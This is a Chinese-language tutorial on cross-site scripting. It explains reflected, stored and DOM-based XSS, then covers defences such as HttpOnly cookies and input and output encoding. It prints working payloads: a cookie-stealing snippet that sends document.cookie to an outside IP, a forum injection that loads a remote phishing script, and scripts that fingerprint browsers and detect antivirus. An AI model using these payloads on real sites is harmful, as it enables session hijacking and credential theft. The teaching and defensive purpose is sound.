










XSS简介和防范
XSS跨站脚本攻击一直都被认为是客户端Web安全中最主流的攻击方式。因为Web环境的复杂性以及XSS跨站脚本攻击的多变性，使得该类型攻击很难彻底解决。那么，XSS跨站脚本攻击具体攻击行为是什么，又该如何进行有效的防范呢？本文对此进行了有针对性的具体实例分析。
跨站脚本攻击（Cross Site Scripting）是指攻击者利用网站程序对用户输入过滤不足，输入可以显示在页面上对其他用户造成影响的HTML代码，从而盗取用户资料、利用用户身份进行某种动作或者对访问者进行病毒侵害的一种攻击方式。为了与层叠样式表（Cascading Style Sheets）的缩写CSS区分开，跨站脚本攻击通常简写为XSS。
下面这个页面的主要作用是获取用户输入的参数作为用户名，并在页面中显示“欢迎您，XXX”的形式，具体代码如下：
<?php $username = $_GET["name"]; echo "<p>欢迎您, ".$username."!</p>"; ?>
正常情况下，用户会在URL中提交参数name的值为自己的姓名，然后该数据内容会通过以上代码在页面中展示，如用户提交姓名为“张三”，完整的URL地址如下：
http://localhost/test.php?name=张三
在浏览器中访问时，会显示如下图1所示内容：
此时，因为用户输入的数据信息为正常数据信息，经过脚本处理以后页面反馈的源码内容为
欢迎您, 张三!
。但是如果用户提交的数据中包含有可能被浏览器执行的代码的话，会是一种什么情况呢？我们继续提交name的值为<script>alert(/我的名字是张三/)</script>,即完整的URL地址为http://localhost/test.php?name=<script>alert(/我的名字是张三/)</script>
在浏览器中访问时，我们发现会有弹窗提示，如下图2所示：
那么此时页面的源码又是什么情况呢？
源码变成了“<p>欢迎您, <script>alert(/我的名字是张三/)</script>!</p>”，从源代码中我们发现，用户输入的数据中，<script>与</script>标签中的代码被浏览器执行了，而这并不是网页脚本程序想要的结果。这个例子正是最简单的一种XSS跨站脚本攻击的形式，称之为反射型XSS。
XSS跨站脚本攻击的分类
根据XSS跨站脚本攻击存在的形式及产生的效果，可以将其分为以下三类。
一、 反射型XSS跨站脚本攻击
反射型XSS脚本攻击即如我们上面所提到的XSS跨站脚本攻击方式，该类型只是简单地将用户输入的数据直接或未经过完善的安全过滤就在浏览器中进行输出，导致输出的数据中存在可被浏览器执行的代码数据。由于此种类型的跨站代码存在于URL中，所以黑客通常需要通过诱骗或加密变形等方式，将存在恶意代码的链接发给用户，只有用户点击以后才能使得攻击成功实施。二、 存储型XSS跨站脚本攻击
存储型XSS脚本攻击是指Web应用程序会将用户输入的数据信息保存在服务端的数据库或其他文件形式中，网页进行数据查询展示时，会从数据库中获取数据内容，并将数据内容在网页中进行输出展示，因此存储型XSS具有较强的稳定性。
存储型XSS脚本攻击最为常见的场景就是在博客或新闻发布系统中，黑客将包含有恶意代码的数据信息直接写入文章或文章评论中，所有浏览文章或评论的用户，都会在他们客户端浏览器环境中执行插入的恶意代码。如流行的Bo-Blog程序的早期版本中存在对用户提交评论数据过滤不严导致的XSS跨站脚本攻击漏洞，黑客可以在文章评论中提交插入恶意数据的UBB代码，提交后，Bo-Blog程序会将数据保存至数据库中，当用户浏览该日志时，就会执行插入的恶意代码，如图3所示。
三、 基于DOM的XSS跨站脚本攻击
基于DOM的XSS跨站脚本攻击是通过修改页面DOM节点数据信息而形成的XSS跨站脚本攻击。不同于反射型XSS和存储型XSS，基于DOM的XSS跨站脚本攻击往往需要针对具体的javascript DOM代码进行分析，并根据实际情况进行XSS跨站脚本攻击的利用。让我们来针对如下代码进行详细分析：
<html> <head> <title>DOM Based XSS Demo</title> <script> function xsstest() { var str = document.getElementById("input").value; document.getElementById("output").innerHTML = "<img src='"+str+"'></img>"; } </script> </head> <body> <div id="output"></div> <input type="text" id="input" size=50 value="" /> <input type="button" value="提交" onclick="xsstest()" /> </body> </html>
以上代码的作用是提交一个图片的URL地址以后，程序会将图片在页面中进行展示，如我们提交百度LOGO图片的地址http://www.baidu.com/img/baidu_sylogo1.gif，那么在页面中展示结果如下图4所示。
当用户输入完百度LOGO的地址，点击“提交”按钮后，“提交”按钮的onclick事件会调用xsstest()函数。而xsstest()函数会获取用户提交的地址，通过innerHTML将页面的DOM节点进行修改，把用户提交的数据以HTML代码的形式写入页面中并进行展示。以上例子中输出的HTML代码为“<img src=” http://www.baidu.com/img/baidu_sylogo1.gif”></img>”。
以上情况为正常的用户输入情况，那黑客又是怎么利用该种类型代码实现XSS跨站脚本攻击的呢？黑客可以通过构造如下数据，输入“#’ onerror=’javascript:alert(/DOM Based XSS Test/)”，在浏览器中提交后，发现代码果然被执行，出现了弹窗提示，如下图5所示。
XSS跨站脚本攻击实例
以上是针对XSS跨站脚本攻击三种类型的简单介绍。看了上面的描述朋友们或许会想，难道仅仅弹出一个提示框就是XSS跨站脚本攻击了吗？答案当然是否定的，XSS跨站脚本攻击的利用可以实现多种效果，甚至可以说XSS跨站脚本攻击漏洞的利用是一种黑客攻击的艺术，下面我们结合具体实例进行详细的分析和描述，了解一下XSS跨站脚本攻击都能做些什么事情。
XSS跨站脚本攻击利用钓鱼
目前，网络钓鱼攻击的方式比较多，包括申请注册相似域名，构建相似度高的网站环境和发布虚假中奖信息等，但是以上钓鱼攻击方式针对有一定安全意识的网民来说，很难实现成功的钓鱼攻击。然而通过XSS跨站脚本攻击漏洞进行的钓鱼攻击，即使有一定安全意识的网民，也无法抵御。这里我们以盛大游戏论坛的XSS跨站脚本攻击漏洞利用的钓鱼攻击演示（目前，该漏洞已经修复）。首先，我们需要了解的是，盛大的游戏登录都是使用盛大通行证进行登录的，而盛大的游戏论坛也是使用盛大通行证进行登录，所以，如果黑客通过盗取游戏玩家登录论坛时的信息，就相当于盗取了玩家游戏账号和密码。盛大的游戏论坛就存在XSS跨站脚本攻击漏洞，使得黑客可以通过该漏洞获取用户的账号和密码。存在过滤不严的位置为用户资料中的个人主页部分，通过在个人主页栏中输入如下代码：
[url]http://'' STYLE='a:expression(document.write("<s\143ript language=javas\143ript src=http://www.123.com/1.jpg Charset=GB23></s\143ript>"))' target=_blank[/url]
然后利用该账号在论坛中发帖子或回复，这样当其他玩家访问我们发布或回复的帖子时，就会执行我们插入的恶意代码。http://www.123.com/1.jpg就是我们构造的恶意代码，这个代码是我们用来钓鱼的页面，如下图6所示：
显示的内容和盛大官方游戏论坛登录的页面一样，如果不通过查看网页源代码的方式是无法从页面显示中看出任何问题的，当玩家输入通行证账号和密码信息并点击登录时，账号提交的地址不是盛大的服务器，而是黑客的服务器。从源码中，可以看到账号和密码发送到的黑客服务器账号接收程序的地址，如下图7所示：
XSS跨站脚本攻击盗取用户Cookie信息
通过XSS跨站脚本攻击盗取用户Cookie信息一直是XSS跨站脚本攻击漏洞利用的最主流方式之一。当用户正常登录Web应用程序时，用户会从服务端得到一个包含有会话令牌的cookie：
Set-Cookie： SessionID=6010D6F2F7B24A182EC3DF53E65C88FCA17B0A96FAE129C3
黑客则可以通过XSS跨站脚本攻击的方式将嵌入恶意代码的页面发送给用户，当用户点击浏览时，黑客即可获取用户的Cookie信息并用该信息欺骗服务器端，无需账号密码即可直接成功登录。这里我们以网易邮箱的XSS跨站脚本攻击漏洞为例进行分析和描述。网易邮箱老版本中，曾经存在一个XSS跨站脚本攻击漏洞，黑客可以构造如下代码：
<XML ID=I><X><C><![CDATA[<IMG SRC="javas]]><![CDATA[cript:xx=new Image();xx.src='http://61.130.75.239/pic/163.asp?url='+escape(document.URL)+'&cookie='+escape(document.cookie);" width=0 height=0>]]>
</C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
并将包含有如图8所示恶意代码的邮件发送至网易邮箱用户时，用户打开了含有恶意代码的邮件后，代码就会自动将用户的cookie信息发送到61.130.75.239上的163.asp文件，其中163.asp的作用是记录发送过来的Cookie，记录的Cookie内容如下图9所示：
在接收到Cookie以后，就可以通过Cookie欺骗的方式实现登录目标邮箱了，如图10所示。

XSS跨站脚本攻击搜集客户端环境信息
搜集客户端环境信息在更多的时候主要应用于指定目标的渗透攻击或网络挂马攻击，如了解客户端环境所使用的浏览器信息、操作系统信息、组件是否安装以及安全防护软件安装情况等。通过XSS跨站脚本攻击可以更加方便、快速地实现客户端环境信息的收集。
那么如何通过javascript收集以上信息呢？我们构造如下脚本代码，并在浏览器中执行这段代码。
<script> alert(navigator.userAgent); </script>
得到的结果如下图11所示。
这个信息中告诉了我们以上关心的两个信息，一个是浏览器的类型和版本，另外一个是客户端环境操作系统的版本。
浏览器：MSIE 8.0（微软IE浏览器，浏览器版本是8.0）
操作系统：Windows NT 6.1（操作系统类型是windows 7）
通过以上方式可以获取客户端的浏览器和操作系统信息，接下来我们在继续判断客户端环境组件安装情况。构造代码如下：
<script> try{ var object = new ActiveXObject("XunLeiBHO.ThunderIEHelper"); } catch(e){ alert("迅雷软件未安装"); } </script>
客户端环境中如果安装迅雷下载软件的话，那么就会安装相应的ActiveX控件XunLeiBHO.ThunderIEHelper，以上脚本的作用即是通过网页脚本去加载迅雷的ActiveX控件，如果控件存在则不会抛出异常，否则就会抛出异常并被脚本捕获，运行上面的脚本代码时，安装有迅雷的环境不会有任何提示，未安装迅雷的环境就会弹窗提示“迅雷软件未安装”。
控件判断可以通过网页加载ActiveX控件的方式实现，那么怎么通过脚本判断客户端环境中是否安装了安全软件呢？这里我们以瑞星安全软件为例，分析描述如何通过XSS跨站脚本攻击漏洞的利用检测客户端环境是否存在瑞星安全软件。我们构造代码如下：
<script> var havesoft=false; var disk=['c','d']; var soft=[':\\Program Files\\Rising\\Ris\\BackRav.dll/2/30994']; for(i=0;i<soft.length;i++) { for(j=0;j<disk.length;j++) { var img=new Image(); res='res://'+disk[j]+soft[i]; img.src=res; if(img.height!=30) { havesoft=true; } } } </script>
以上代码的作用是通过javascript结合res协议对客户端环境中的资源文件进行加载，javascript脚本运行后，会对客户端环境的C、D盘进行访问，访问是否存在瑞星默认安装路径的资源文件，并尝试对资源文件进行加载，如果加载成功，则说明资源文件存在，也说明瑞星安全软件的存在，并将变量havesoft置为真，脚本检测结束后，只需要检测该变量是否为真即可。
XSS Worm
相对于以上三种情况，可以说是XSS蠕虫（XSS Worm）的破坏力和影响力都是巨大的。XSS蠕虫主要发生在用户之间存在交互行为的页面中，当Web应用程序对用户输入的数据信息没有做严格的过滤时，通过结合Ajax的异步提交，就可以实现在植入恶意代码的同时，将恶意代码进行对外发送，即实现了代码的感染和传播，也就形成了XSS蠕虫。
谈到XSS蠕虫就很有必要介绍一下新浪微博遭受XSS蠕虫攻击事件，同时我们也以此次攻击事件作为例子，对黑客恶意利用漏洞至XSS蠕虫大范围扩散的过程进行详细分析和描述，并对该XSS蠕虫的恶意脚本文件进行一下简要的分析。
XSS跨站脚本攻击的防范
通过以上针对不同种情况的XSS跨站脚本攻击的描述，我们了解到了在复杂的Web环境中，XSS的利用是千变万化的，如何能够有效地防范XSS跨站脚本攻击问题一直都是浏览器厂商和网站安全技术人员关注的热门话题。现在很多浏览器厂商都在自己的程序中增加了防范XSS跨站脚本攻击的措施，如IE浏览器从IE8开始内置了XSS筛选器，Firefox也有相应的CSP、Noscript扩展等。而对于网站的安全技术人员来说，提出高效的技术解决方案，保护用户免受XSS跨站脚本攻击才是关键。下面我们结合网站安全设计，描述一下如何通过技术手段实现XSS跨站脚本攻击的防范。
利用HttpOnly
HttpOnly最初是由微软提出的，目前已经被多款流行浏览器厂商所采用。HttpOnly的作用不是过滤XSS跨站脚本攻击，而是浏览器将禁止页面的Javascript访问带有HttpOnly属性的Cookie，解决XSS跨站脚本攻击后的Cookie会话劫持行为。
httpOnly是在Set-Cookie时进行标记的，设置的Cookie头格式如下：
Set-Cookie:= [; = ] [; expires= ][; domain= ] [; path= ][; secure][; HttpOnly]
以php为例，在php 5.2版本时就已经在Setcookie函数加入了对HttpOnly的支持，如
<?php setcookie("user", "admin", NULL, NULL, NULL, NULL, TRUE); ?>
通过以上代码就可以设置user这个cookie，将其设置为HttpOnly，setcookie函数实质是通过向客户端发送原始的HTTP报文头进行设置的，document将不可见这个Cookie，所以使用document.cookie就取不到这个Cookie，也就是先了对Cookie的保护。
完善的输入和输出检查
由于三种XSS跨站脚本攻击类型的漏洞成因可不相同，针对输入输出的检查一部分适用于反射型XSS与存储型XSS，而另外一些检查适用于基于DOM的XSS。
A. 防范反射型XSS和存储型XSS
输入检查在大多数的时候都是对可信字符的检查或输入数据格式的检查，如用户输入的注册账号信息中只允许包括字母、数字、下划线和汉字等，对于输入的一切非白名单内的字符均认为是非法输入。数据格式如输入的IP地址、电话号码、邮件地址、日期等数据都具有一定的格式规范，只有符合数据规范的输入信息才允许通过检查。
输出检查主要是针对数据展示过程中，应该对数据信息进行HTML编码处理，将可能存在导致XSS跨站脚本攻击的恶意字符进行编码，在不影响正常数据显示的前提条件下，过滤恶意字符。常见的可能造成XSS跨站脚本攻击的字符及其HTML编码如下：
“ " ‘ ' & & < < > > “ " ‘ &' & & < < > >
除了常用的编码外，任何字符都可以使用其ASCII码进行HTML编码，如
% % * *
B. 防范基于DOM的XSS
从基于DOM的XSS的定义及其触发方式我们发现，当基于DOM的XSS跨站脚本攻击发生时，恶意数据的格式与传统的XSS跨站脚本攻击数据格式有一定的差异，甚至可以在不经过服务器端的处理和相应的情况下，直接对客户端实施攻击行为，因此上述我们应用于防范反射型XSS和存储型XSS的方法并不适用于防范基于DOM的XSS跨站脚本攻击。
针对基于DOM的XSS防范的输入检查方法，我们发现在客户端部署相应的安全检测代码的过滤效果要比在服务器端检测的效果更加明显。例如，我们可以通过如下客户端检测代码来保证用户输入的数据只包含字母、数字和空格，代码如下：
<script> var str = document.URL; str = str.substring(str.indexOf("username=")+9, str.length); str = unescape(str); var regex=/^([A-Za-z0-9+\s])*$/; if (regex.test(str)) document.write(str); </script>
同样，我们也可以通过在服务端实现类似上述数据检查的功能，如在服务器端检测URL参数是否为预定的参数username,并对username参数的内容进行检测，确认数据内容是否为只包含数字、字母和空格符，实现服务端的数据过滤。但是，由于客户端数据的可控性，这种服务端检测的效果要明显弱于客户端检测。
基于DOM的XSS输出检查与反射型XSS漏洞输出检查的方法相似，在将用户可控的DOM数据内容插入到文档之前，Web应用程序应对提交的数据进行HTML编码处理，将用户提交的数据中可能存在的各种危险字符和表达式进行过滤以安全的方式插入到文档中进行展现，如可以通过如下函数实现在客户端javascript中执行HTML编码处理。
function jsEncode(str) { var d = document.createElement('div'); d.appendChild(document.createTextNode(str)); return d.innerHTML; }
XSS跨站脚本攻击作为Web应用安全领域中最大威胁之一，不仅仅危害Web应用业务的正常运营，对访问Web应用业务的客户端环境和用户也带来了直接安全影响。虽然XSS跨站脚本攻击在复杂的Web应用环境中利用方式千变万化，但是网络安全人员通过对Web应用的各种环境进行详细分析和处理，完全阻断XSS跨站脚本攻击是可以实现的。如何有效防范和阻止XSS跨站脚本攻击，保障Web应用系统的业务安全和正常运营，保护客户端用户免受XSS跨站脚本攻击行为的侵害，是Web应用系统管理人员和网络安全产品开发人员的共同职责。